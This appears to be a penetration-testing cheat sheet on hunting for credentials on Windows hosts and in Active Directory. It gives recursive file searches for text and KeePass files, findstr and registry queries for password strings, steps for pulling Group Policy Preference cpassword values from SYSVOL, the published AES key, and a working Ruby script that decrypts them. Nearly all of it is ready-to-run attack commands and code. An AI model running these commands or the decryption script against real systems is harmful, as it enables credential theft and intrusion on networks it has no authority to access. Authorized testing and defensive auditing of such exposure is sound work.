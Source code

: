 # Files / Credentials / Flags



```
gci -force -recursive -Path 'C:\users\' -include *.txt

```



## Credentials

```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
dir .s *pass* == *.config
findstr /si password *.xml *.ini *.txt
```






## Searching in Registry for Passwords

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```












######################################################
# AD Hunting Passwords In SYSVOL

- <https://github.com/ahmetgurel/Pentest-Hints/blob/master/AD%20Hunting%20Passwords%20In%20SYSVOL.md>

* To reach SYSVOL folder: run> %Logonserver%

*  \\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\

* Search for XML, VBS or Batch file that is used to change the password. This can be done by searching for the mentioned file types (with specific search keywords). The password reset script is to be found.

* *.xml , *.vbs , *.bat etc.

* Map drives (Drives.xml)
* Create Local Users (unattend.xml)
* Data Sources (DataSources.xml)
* Printer configuration (Printers.xml)
* Create/Update Services (Services.xml)
* Scheduled Tasks (ScheduledTasks.xml)
* Change local Administrator passwords
* Group policy preferences (Groups.xml)

These XML files can be searched in the SYSVOL folder using key word search. Passwords in the XML file can be searched using the key value “cpassword”. The encryption is 32-byte AES as per Microsoft’s documentation, the encryption key is:

4e 99 06 e8  fc b6 6c c9  fa f4 93 10  62 0f fe e8

f4 96 e8 06  cc 05 79 90  20 9b 09 a4  33 b6 6c 1b

AES KEY Source: https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx

With access to this XML file, the attacker can use the AES private key to decrypt the GPP password. The PowerSploit function Get-GPPPassword is most useful for Group Policy Preference exploitation.

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

## cpassword Decrption Ruby Script



```
require 'rubygems'
require 'openssl'
require 'base64'


encrypted_data = "j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw"

def decrypt(encrypted_data)
  padding = "=" * (4 - (encrypted_data.length % 4))
  epassword = "#{encrypted_data}#{padding}"
  decoded = Base64.decode64(epassword)

   key = "\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b"
  aes = OpenSSL::Cipher::Cipher.new("AES-256-CBC")
  aes.decrypt
  aes.key = key
  plaintext = aes.update(decoded)
  plaintext << aes.final
  pass = plaintext.unpack('v*').pack('C*') # UNICODE conversion

   return pass
 end
 
blah = decrypt(encrypted_data)
puts blah  

```

* Source: http://carnal0wnage.attackresearch.com/2012/10/group-policy-preferences-and-getting.html
